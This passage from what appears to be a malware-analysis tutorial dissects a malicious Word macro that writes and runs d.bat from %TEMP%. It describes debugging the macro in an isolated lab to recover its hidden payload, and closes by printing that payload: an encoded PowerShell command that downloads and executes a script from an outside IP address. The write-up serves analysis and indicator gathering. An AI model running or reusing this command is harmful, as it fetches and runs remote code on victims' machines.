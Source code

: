 We can understand the maldoc's functionality through the extracted Macro. As you can see, line 53 and 56 define "auto" macros we've previously talked about. Line two contains the definition for the auto macro, which in this case will be launched **each time you open the document**.

Lines 3-15 are variable declaration statements. Lines 16 to 38 indicate obfuscated strings. As we previously talked about, ChrW is converting the Unicode value (in this case, its just Ascii) into a character, which when joined together will provide the string needed for the code. 

On line 38, the deobfuscated strings are stored in the variable "*last*".

On line 43, the malware is storing a file name "d.bat" along with its full path which is obtained by querying the system environment for %TEMP%. In my analysis machine, this filepath will be `C:\Users\Admin\AppData\Local\Temp\d.bat`. We need to add this to our list of IoCs.  As you continue your analysis, identify unique values such as these and note them down. Filepaths are not unique but in context with other activity, can be used to correlate and identify similar malware family etc.

On line 47, the contents of the variable "*last*" is written to the above file path. 

On line 51, the above newly created file is executed. 

In summary, to understand the functionality of the Macro, we need to view the contents of this file. There are many different ways to approach this. The quick and dirty way would be to open the word document, enable macros and find the d.bat file. Since the lab environment is isolated, its not too bad to do this. We can always revert the VM back to original state if needed. 

However, this approach is crude and won't work if the file deletes itself after execution. The cleanest way to do this would be to use in-built VBA Macro debugger in Microsoft Office tools. Like a typical debugger, we should be able to set breakpoints in the code, and view the contents of variables, in this case - variable "*last*". 

The quick and dirty way works for this particular sample, but lets assume it self deletes and we are not quick enough to grab a copy of d.bat. 

## Debugging Macros

Open Microsoft Word in your **lab environment**, create a new document, visit the "View" tab and underneath it, there will be a "Macros" section. Select the Macros button and a pop up Window will show requesting you to create a Macro. I've named my Macro "MaliciousMacro" (I'm very creative) as shown below.

![Create Macros](/assets/img/2021_06_23/CreateMacros.JPG){: .mx-auto.d-block :}
<center><em>Figure 4: Creating Macros in Microsoft Word</em></center>

Delete the existing default Macro content and replace it with the entire contents of the **malicious_vba.txt** we previously extracted.

Now, right click the variable '*last*' on line 38, and select "Add Watch". This is going to open a new "Watches" window which displays real-time value of the variable. Now, set a debug point on any line after this statement. I chose line 42. Run the script. 

You'll notice that execution stops at the debug point and the Watches tab displays the content of variable '*last*' as follows

```
powershell.exe -exec bypass -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADMALgAzADYALgAyADEAMQAuADEANwA2AC8AcgBzAC4AdAB4AHQAJwApACkA
```
